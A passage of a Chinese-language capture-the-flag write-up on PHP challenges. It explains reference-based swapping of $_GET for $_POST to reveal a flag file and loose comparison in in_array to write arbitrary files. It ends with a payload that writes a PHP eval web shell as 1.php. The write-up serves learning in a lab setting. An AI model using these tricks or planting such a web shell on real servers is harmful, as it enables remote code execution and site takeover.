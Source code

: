 那么：

> `$_GET?$_GET=&$_POST:'flag';`
> 只要存在get传入的参数，将get方法改为post方法(利用`&`引用)；
>
> `$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';`
> 只要get传入的flag=flag，就使得get方法的参数=$_COOKIE传入的参数
>
> `$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';`
>
> 只要get传入的flag=flag，就使得get方法的参数=$_SERVER传入的参数
>
> 重点在于：`highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);`
> 只要我们`$_GET['HTTP_FLAG']=='flag'`为真，就会highlight_file($flag)

那么只要随便get一个参数a=1触发`$_GET=&$_POST`,然后POST传HTTP_FLAG=flag即可

## 99-in_array

```php
$allow = array();
for ($i=36; $i < 0x36d; $i++) { # 36~877
    array_push($allow, rand(1,$i));	# 给数组插入一个最小为1，最大为$i的随机数
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
```

> ```php
> in_array(mixed $needle, array $haystack, bool $strict = false): bool
> ```
>
> 如果没设置strict，就会使用宽松比较

再看判断条件就是：传值n存在于数组$allow中，就会将content写到n里

> 1.当字符串中 以 `数字开头 +字符串+数字或字符(字符串)+…` 的格式与数字进行 == 判断时，
>
> 会取第一次出现字符(字符串)前的数字作为转换值。
>
> 2.当字符串中 以 `字符(字符串)开头 +数字+数字或字符(字符串)+…` 的格式与数字进行 == 判断时，
>
> 不能转换为数字，被强制转换为0

那么令n=1.php，而数组中都是数字，就会取1放入in_array进行匹配

尝试写马
payload：

```
GET:
?n=1.php
POST:
content=<?php eval($_POST[1]);?>
```
